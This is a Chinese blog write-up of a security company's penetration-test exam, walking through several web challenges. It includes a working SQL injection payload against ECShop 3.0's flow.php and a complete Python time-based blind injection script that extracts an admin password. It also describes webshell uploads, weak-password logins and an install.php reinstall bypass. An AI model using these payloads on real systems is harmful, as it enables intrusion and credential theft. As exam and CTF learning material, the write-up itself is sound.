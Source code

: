```yaml
---
layout: post
title: 四叶草安全笔试WP
date: 2017-08-31
categories: Write_Up
---
```


### 前言

夏令营结束后，不停的在面试、笔试以及准备面试、笔试。顺带被小伙伴带着吃鸡、到处浪。emmmmm......终于体会到了充实又放荡的切切实实的暑假生活。以至于准备填的坑还没填，不过呢，快开学了。很快就能有大把的时间填完。争取9月中之前整理完毕。今天的笔试正好是这种给链接去渗透的题目，而且需要WP，正好拿来写博客（才不是我懒的再写2333

### My Awesome Photoblog

嗯。。。第一题就跪了，我还是很心累的。扫描了网页目录，没有什么特殊发现，那就看看网页的逻辑。应该有一个index.php，一个cat.php，一个all.php，还有一个login.php。

index.php和all.php没有参数，所以没有思路。

cat.php参数是id，最开始认为是sql注入，所以使用if(database(),sleep(5),sleep(5))这种最简单的判断方式看是否存在注入，然而并没有。然后发现id=1=2=3，会不会是文件包含，然后尝试了几个伪协议，无果。

![1](/images/posts/seclover/1.png)

好吧，那我看login.php吧，试试注入，依旧无果。那就跪了。先放一边，其他做了如果有时间再来试试看是否是过滤很多的注入。

![1](/images/posts/seclover/2.png)

后来谷歌到了原题，admin的密码居然没有改，成功登陆。可是发现上传很奇怪，后缀是png,文件头也是png的文件头十六进制，去掉敏感字符内容依旧不能上传。。。没有办法了。切切实实的跪了

### Hi,Pentester?

还是一样的，一言不合扫后台，除了一个登陆界面，也没扫到什么有用的东西。

简单查看一下登陆界面，没有明显的注入，还是先看看其他逻辑，about里面有address.txt下载，下了之后发现是四叶草的电话号码。因为news.php里面有我更感兴趣的点，所以这个号码暂时先放着。可能是简单组合字典弱口令。

news.php感觉文件包含可能性很大啊，如图：

![1](/images/posts/seclover/3.png)

尝试了几个伪协议，均无果。

发现一个登陆界面，SQL尝试也无果。放弃

### 订餐

嗯。。。有登陆注册还以为有密码重置漏洞，结果居然不能发重置邮件出去，直接抓包跳到重置布置表示验证失效，很明显还是需要什么参数或者验证成功后的cookie的啊，但是没办法发邮件等于这条思路是不可能的。

后来发现有缓存文件夹，里面有一大堆php文件，但是无法下载源代码。

install.php因为上锁了，而且判断是否上锁后退出了函数没办法绕过。

注册新用户登录后，留言可以了但是尝试XSS失败，但是可以用XFF控制ip，但是并没有什么用，不能注入也不能命令执行。不过就算成功估计也只能X自己，管理员不知道能不能看见这个留言。

修改密码也是，因为是cookie认证，没办法重置admin的密码。

找回密码发现可能有盲打XSS，写个iframe过去试试。但是并没有返回。

### ECSHOP

目录扫描一下，发现有fckeditor，但是没有什么用，upload.php似乎被删掉了。install同样锁死了。发现首页最下面有个版本信息，遂看了下版本，是3.0，于是百度一下已知漏洞，发现有人审计后发现flow.php的order_id存在注入，于是测试一下，确实存在。

构造语句注入得到admin账户以及密码，但是密码在线md5未解出来。如图：

![1](/images/posts/seclover/4.png)

账户：admin:5009#

密码hash：a684073c5b42a5eb8461a9d6ae5c71

payload:
```
1 or extractvalue(1,concat(0x7e,(select distinct concat(0x23,user_name,0x3a,ec_salt,0x23)from ecs_admin_user limit 0,1))) or 1#
```

### RAICO

老规矩扫目录，发现有个后台登录界面，而且还有盲注点。证明payload如下

![](/images/posts/seclover/5.png)

界面会停止5秒再响应,所以存在时间盲注。于是写了一个脚本

```
# encoding=utf-8
import httplib
import time
import string
import sys
import random
import urllib

database = 'web'
tables = 'rco_admin'
fields = ''
data = ''

dbpayload = '\' and if(ascii(mid(version(),%d,1))=%d'
tablepayload = "\' and if(ascii(mid((select(concat(table_name))from(information_schema.tables)where(table_schema=\'" + \
    database + "\')limit 0,1),%d,1))=%d"
fieldspayload = "\' and if(ascii(mid((select(concat(column_name))from(information_schema.columns)where(table_name=\'" + tables + "\')limit 2,1),%d,1))=%d"
finalpayload = "\' and if(ascii(mid((select(admin_pw)from(rco_admin )limit 0,1),%d,1))=%d"

headers = {'Content-Type': 'application/x-www-form-urlencoded'}
print '[%s] Start to retrive dbname:' % time.strftime('%H:%M:%S', time.localtime())
flag = ''
isEnd = False
for i in range(1, 36):
    if isEnd:
        break
    isEnd = True
    for j in range(33, 127):
        url = '/admin/login.php'
        start_time = time.time()
        data = "UserName=admin" + finalpayload % (i, j) + \
            ",sleep(5),1)#&PW=admin&btnLogin=+%B5%C7%C8%EB+"
        conn = httplib.HTTPConnection(
            'ed15a272730fcb59.yunyansec.com', timeout=60)
        conn.request(method='POST', url=url, body=data, headers=headers)
        html_doc = conn.getresponse().read
        # print html_doc
        conn.close()
        print '.',
        print data
        if (time.time() - start_time > 5):
            isEnd = False
            flag += chr(j)
            print '[in progress]', flag, '\n'
            break
        time.sleep(0.01)
print '[Done] The Flag is %s \n' % flag
time.sleep(20)
```

数据库:`web`

表:`admin_id``admin_name``admin_pw`

密码：`b4fe6578538b526`

最开始写这种聚合、嵌套语句写的太久了。花了一两个小时修修改改才跑到表名。后来发现navicat有美化sql后，就写的比较快了。

### cmseasy

有点无语。。。admin-admin弱密码登录成功了。

还准备申请一个账号重置管理员密码的

修改模板抓包保存为shell。

![](/images/posts/seclover/6.png)
![](/images/posts/seclover/7.png)

保存文件的地址在GET的参数里。访问后POST请求即可。如上图

### myphp

又是模板。。。百度下载到v4.1的源码，审计一下。

看到安装的时候数据库名似乎存在注入，准备去试试，结果访问install.php时直接覆盖安装了。。。

![](/images/posts/seclover/8.png)

如图，之后重置管理员账户，进入后台。

![](/images/posts/seclover/9.png)

模板修改失败，但是找到一个上传点，直接上传php，获得shell

![](/images/posts/seclover/10.png)

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [四叶草安全笔试WP](http://RoyTse.github.io/2017/08/四叶草安全笔试WP/)  